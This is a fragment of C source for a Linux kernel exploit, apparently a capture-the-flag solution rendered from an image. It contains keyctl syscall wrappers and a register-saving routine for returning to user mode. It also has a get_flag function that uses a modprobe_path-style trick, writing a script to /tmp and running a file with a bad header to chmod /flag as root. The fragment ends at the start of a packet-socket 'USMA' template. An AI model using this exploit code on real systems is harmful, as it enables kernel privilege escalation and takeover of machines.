 ```c
    return syscall(__NR_keyctl, KEYCTL_UPDATE, keyid, payload, plen);
}

int key_read(int keyid, void *buffer, size_t buflen)
{
    return syscall(__NR_keyctl, KEYCTL_READ, keyid, buffer, buflen);
}

int key_revoke(int keyid)
{
    return syscall(__NR_keyctl, KEYCTL_REVOKE, keyid, 0, 0, 0);
}

int key_unlink(int keyid)
{
    return syscall(__NR_keyctl, KEYCTL_UNLINK, keyid, KEY_SPEC_PROCESS_KEYRING);
}
// common functions
void save_status(void)
{
    asm volatile ("mov user_cs, cs;"
        "mov user_ss, ss;"
        "mov user_sp, rsp;"
        "pushf;"
        "pop user_rflags;"
    );

    puts("\033[34m\033[1m[*] Status has been saved.\033[0m");
}

void bind_core(int core)
{
    cpu_set_t cpu_set;

    CPU_ZERO(&cpu_set);
    CPU_SET(core, &cpu_set);
    sched_setaffinity(getpid(), sizeof(cpu_set), &cpu_set);

    printf("\033[34m\033[1m[*] Process binded to core \033[0m%d\n", core);
}
void get_flag(){
    system("echo -ne '#!/bin/sh\n/bin/chmod 777 /flag' > /tmp/x");
    system("chmod +x /tmp/x");
    system("echo -ne '\\xff\\xff\\xff\\xff' > /tmp/dummy");
    system("chmod +x /tmp/dummy");
    system("/tmp/dummy");
    sleep(0.3);
    system("cat flag");
    exit(0);
}
#ifndef ETH_P_ALL
#define ETH_P_ALL 0x0003
#endif
void die(const char *msg) {
    perror(msg);
    exit(1);
}
// ------------------- USMA 板子 start -------------------
void packet_socket_rx_ring_init(int s, unsigned int block_size,
                                unsigned int frame_size, unsigned int block_nr,
                                unsigned int sizeof_priv, unsigned int timeout) {
    int v = TPACKET_V3;
    int rv = setsockopt(s, SOL_PACKET, PACKET_VERSION, &v, sizeof(v));
```